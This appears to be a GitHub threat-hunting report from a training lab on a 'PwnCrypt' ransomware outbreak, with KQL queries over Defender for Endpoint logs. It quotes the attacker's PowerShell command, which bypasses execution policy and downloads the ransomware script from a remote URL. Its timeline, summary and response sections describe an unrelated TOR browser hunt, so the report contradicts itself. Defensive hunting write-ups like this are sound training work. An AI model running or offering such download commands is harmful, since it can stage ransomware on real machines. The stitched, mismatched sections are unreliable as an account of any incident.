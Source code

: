 
<p align="center">
  <img src="https://github.com/user-attachments/assets/b7afca87-3ed2-42cd-b8a1-0a0e21d19d15"
</p>

# Threat Hunt Report:  Zero-Day-Ransomware-PwnCrypt-Outbreak
- [Scenario Creation](https://github.com/JordanDanielWest/threat-hunting-scenario-tor/blob/main/threat-hunting-scenario-tor-event-creation.md)

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Powershell

##  Scenario

A new ransomware strain named PwnCrypt has been reported in the news, leveraging a PowerShell-based payload to encrypt files on infected systems. The payload, using AES-256 encryption, targets specific directories such as the C:\Users\Public\Desktop, encrypting files and prepending a .pwncrypt extension to the original extension. For example, hello.txt becomes hello.pwncrypt.txt after being targeted with the ransomware. The CISO is concerned with the new ransomware strain being spread to the corporate network and wishes to investigate.

### High-Level TOR-Related IoC Discovery Plan

- **Check `DeviceFileEvents`** for any files with `pwncrypt`.
- **Check `DeviceProcessEvents`** to determine delivery method.

---

## Steps Taken

### 1. Searched the `DeviceFileEvents` Table

I ran a query in DeviceFileEvents that revealed a file named `pwncrypt.ps1` created at `2025-04-17T20:14:28.4324263Z` confirming that the Pwncrypt Ransomware has been run and infected our corporate network.

Folder Path: `C:\ProgramData\pwncrypt.ps1`

**Query used to locate events:**

```kql
DeviceFileEvents
| where DeviceName == "edr-machine"
| where FileName has_any ("pwncrypt")
| sort by Timestamp desc
```
![image](https://github.com/user-attachments/assets/03e9c92a-5852-466c-9c6e-19d11492f91d)

---
### 2. Searched the `DeviceFileEvents` Table

I ran a query that revealed several files created with the “pwncrypt” extension.
- Files: `1308_EmployeeRecords_pwncrypt.csv`,`6664_ProjectList_pwncrypt.csv`,`2669_CompanyFinancials_pwncrypt.csv`.
- Additionally, the `InitiatingProcessCommandLine` table revealed the script that was run:
  - `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`
    - The command opens PowerShell, tells it to ignore all safety settings(`ExecutionPolicy Bypass `),
    - then downloads a suspicious script called pwncrypt.ps1 from the internet(`Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1`)
    - and saves it in a system folder(`C:\ProgramData\pwncrypt.ps1`)

**Query used to locate events:**
```kql
DeviceFileEvents
| where DeviceName == "edr-machine"
| where FileName has_any ("pwncrypt")
| sort by Timestamp desc
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessAccountName, InitiatingProcessParentFileName, InitiatingProcessCommandLine
| where ActionType  == "FileCreated"
| where Timestamp >= datetime(2025-04-17T20:14:28.4324263Z)
```
![image](https://github.com/user-attachments/assets/2542925f-a21c-4154-806a-1e40613a3390)









### 3. Searched the `DeviceProcessEvents` Table

I next checked the DeviceProcessEvents table in order to determine how the files were encrypted. I found evidence of manual `cmd.exe` of powershell running 

**Query used to locate event:**

```kql

DeviceProcessEvents
| where DeviceName == "edr-machine"
| where FileName endswith "powershell.exe"
| where ProcessCommandLine contains "pwncrypt.ps1"
| project Timestamp, ProcessCommandLine, InitiatingProcessCommandLine, InitiatingProcessAccountName
| where Timestamp >= datetime(2025-04-17T20:14:28.4324263Z)
| sort by Timestamp desc
```
![image](https://github.com/user-attachments/assets/3a851f9b-6e23-47fc-b9e9-bb078d67ce15)


---


---

## Chronological Event Timeline 

### 1. File Download - TOR Installer

- **Timestamp:** `2025-04-14T21:01:37.1940431Z`
- **Event:** The user "ds9-cisco" downloaded a file named `tor-browser-windows-x86_64-portable-14.0.9.exe` to the Downloads folder.
- **Action:** File download detected.
- **File Path:** `C:\Users\DS9-CISCO\Downloads\tor-browser-windows-x86_64-portable-14.0.9.exe`

### 2. Process Execution - TOR Browser Installation

- **Timestamp:** `2025-04-14T21:04:58.6035812Z`
- **Event:** The user "ds9-cisco" executed the file `tor-browser-windows-x86_64-portable-14.0.9.exe` in silent mode, initiating a background installation of the TOR Browser.
- **Action:** Process creation detected.
- **Command:** `tor-browser-windows-x86_64-portable-14.0.9.exe /S`
- **File Path:** `C:\Users\DS9-CISCO\Downloads\tor-browser-windows-x86_64-portable-14.0.9.exe`

### 3. Process Execution - TOR Browser Launch

- **Timestamp:** `2025-04-14T21:05:30.6659937Z`
- **Event:** User "ds9-cisco" opened the TOR browser. Subsequent processes associated with TOR browser, such as `firefox.exe` and `tor.exe`, were also created, indicating that the browser launched successfully.
- **Action:** Process creation of TOR browser-related executables detected.
- **File Path:** `C:\Users\DS9-CISCO\Desktop\Tor Browser\Browser\TorBrowser\Tor\tor.exe`

### 4. Network Connection - TOR Network

- **Timestamp:** `2025-04-14T21:05:38.1904337Z`
- **Event:** A network connection to IP `194.147.140.107` on port `443` by user "ds9-cisco" was established using `tor.exe`, confirming TOR browser network activity.
- **Action:** Connection success.
- **Process:** `tor.exe`
- **File Path:** `c:\users\ds9-cisco\desktop\tor browser\browser\torbrowser\tor\tor.exe`

### 5. Additional Network Connections - TOR Browser Activity

- **Timestamps:**
  - `2025-04-14T21:05:40.7830533Z` - Connected to `116.12.180.234` on port `443`.
  - `2025-04-14T21:06:46.2718388Z` - Local connection to `194.147.140.107` on port `443`.
- **Event:** Additional TOR network connections were established, indicating ongoing activity by user "ds9-cisco" through the TOR browser.
- **Action:** Multiple successful connections detected.

### 6. File Creation - TOR Shopping List

- **Timestamp:** `2025-04-14T21:18:38.2736577Z`
- **Event:** The user "ds9-cisco" created a file named `tor-shopping-list.txt` on the desktop, potentially indicating a list or notes related to their TOR browser activities.
- **Action:** File creation detected.
- **File Path:** `C:\Users\DS9-CISCO\Desktop\tor-shopping-list.txt`

---

## Summary

The user "ds9-cisco" on the "edr-machine" device initiated and completed the installation of the TOR browser. They proceeded to launch the browser, establish connections within the TOR network, and created various files related to TOR on their desktop, including a file named `tor-shopping-list.txt`. This sequence of activities indicates that the user actively installed, configured, and used the TOR browser, likely for anonymous browsing purposes, with possible documentation in the form of the "shopping list" file.

---

## Response Taken

TOR usage was confirmed on the endpoint `edr-machine` by the user `ds9-cisco`. The device was isolated, and the user's direct manager was notified.

---# threat-hunting-scenario-tor
